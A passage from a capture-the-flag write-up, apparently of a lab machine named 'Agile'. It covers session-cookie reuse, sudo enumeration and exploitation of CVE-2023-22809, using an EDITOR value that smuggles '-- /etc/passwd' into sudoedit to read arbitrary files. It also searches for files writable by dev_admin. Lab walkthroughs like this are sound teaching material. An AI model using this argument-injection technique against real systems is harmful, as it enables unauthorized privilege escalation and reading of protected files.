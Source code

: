 Let's forward that port, copy the cookies to the website and refresh.

![asdf](9.png)

We got the session of use `edwards`, let's copy the password and login.

```terminal
corum@agile:~$ su edwards
Password: 
edwards@agile:/home/corum$ sudo -l
[sudo] password for edwards: 
Matching Defaults entries for edwards on agile:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty

User edwards may run the following commands on agile:
    (dev_admin : dev_admin) sudoedit /app/config_test.json
    (dev_admin : dev_admin) sudoedit /app/app-testing/tests/functional/creds.txt

```

We can sudoedit as user `dev_admin`.

```bash
edwards@agile:/app/venv/bin$ sudo -V
Sudo version 1.9.9
Sudoers policy plugin version 1.9.9
Sudoers file grammar version 48
Sudoers I/O plugin version 1.9.9
Sudoers audit plugin version 1.9.9

```

The version running is vulnerable to `CVE-2023-22809`.

>In Sudo before 1.9.12p2, the sudoedit (aka -e) feature mishandles extra arguments passed in the user-provided environment variables (SUDO_EDITOR, VISUAL, and EDITOR), allowing a local attacker to append arbitrary entries to the list of files to process. This can lead to privilege escalation. Affected versions are 1.8.0 through 1.9.12.p1. The problem exists because a user-specified editor may contain a “–” argument that defeats a protection mechanism, e.g., an EDITOR=’vim – /path/to/extra/file’ value.
{: .prompt-info }

So for example if we run `export EDITOR="vim -- /etc/passwd"` and then run `sudoedit -u dev_admin /app/config_test.json`, it would open the /etc/passwd file inside vi instead of config_test.json file.

There are a lot of file I tried to read like history files for dev_admin and private ssh keys but didn't find anything good.

Let's search for files and directories that user dev_admin has permission over.

```bash
edwards@agile:~$ find / -user dev_admin 2>/dev/null
/home/dev_admin
/app/app-testing/tests/functional/creds.txt
/app/config_test.json
/app/config_prod.json
edwards@agile:~$ find / -group dev_admin 2>/dev/null
/home/dev_admin
/app/venv
/app/venv/bin
/app/venv/bin/activate
/app/venv/bin/Activate.ps1
/app/venv/bin/activate.fish
/app/venv/bin/activate.csh
edwards@agile:~$ ls -l /app/venv/bin/activate
-rw-rw-r-- 1 root dev_admin 1976 Jul 13 19:03 /app/venv/bin/activate

```